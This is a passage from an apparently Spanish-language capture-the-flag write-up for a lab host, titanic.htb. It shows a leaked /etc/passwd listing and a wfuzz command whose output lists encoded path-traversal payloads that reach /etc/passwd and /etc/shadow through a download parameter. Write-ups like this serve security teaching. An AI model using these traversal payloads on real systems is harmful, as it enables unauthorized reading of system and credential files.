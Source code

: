```Shell
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

**Nota:** los usuarios `root`y `developer` tienen acceso a una `/bin/bash`

Explicación: tenemos capacidad de hacer *path traversal* 


## Paso 9 -

Acción: 

```Shell
wfuzz -u 'http://titanic.htb/download?ticket=FUZZ' -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404
```

Resultado:

```Shell
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://titanic.htb/download?ticket=FUZZ
Total requests: 929

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                               
=====================================================================

000000020:   200        36 L     50 W       1951 Ch     "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"                                                 
000000017:   500        5 L      37 W       265 Ch      "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow"                                   
000000016:   200        36 L     50 W       1951 Ch     "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"                                   
000000023:   200        36 L     50 W       1951 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"                                                                              
000000021:   500        5 L      37 W       265 Ch      "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow"                                                 
000000024:   500        5 L      37 W       265 Ch      "..%2F..%2F..%2F%2F..%2F..%2Fetc/shadow"                                                                              
```